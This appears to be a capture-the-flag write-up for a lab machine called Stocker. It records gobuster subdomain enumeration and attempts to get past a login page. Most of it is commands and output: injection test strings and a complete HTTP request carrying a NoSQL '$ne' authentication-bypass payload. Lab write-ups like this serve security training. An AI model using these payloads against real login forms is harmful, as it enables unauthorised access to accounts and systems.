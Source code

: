 - I found that there was a dev.stocker.htb domain that contains a login page 
```shell
gobuster vhost -w subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain  
 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/04/16 08:20:37 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4415 / 4990 (88.48%)
===============================================================
2023/04/16 08:20:40 Finished
===============================================================
```
- entering the url in the in browser brings us to a login.  
![[Pasted image 20230416133042.png]]

- investigaging the webform, I decided to see if the form is vunirable to Using [SQL Injection](https://portswigger.net/web-security/sql-injection) to Bypass Authentication using {{7`*`7}} this didnt give anything this just gave the default `Invalid Username or password`, I also tried 1=1-- ' this didn't  bear fruit. 
- I then tried to check for JSON compatiablility which involves changing the content type to application/json and using some of the parameters on the Hacktricks site 
```POST
POST /login HTTP/1.1

Host: dev.stocker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/json

Content-Length: 57

Origin: http://dev.stocker.htb

Connection: close

Referer: http://dev.stocker.htb/login

Cookie: connect.sid=s%3AIhO6lY-2aBFAjFehNRDu0KT72grVAYiF.9brbf7scPJZklInizBZnDe4IdHWJtOycbUkV02S2DdU

Upgrade-Insecure-Requests: 1


{"username": {"$ne": null}, "password": {"$ne": null} }

```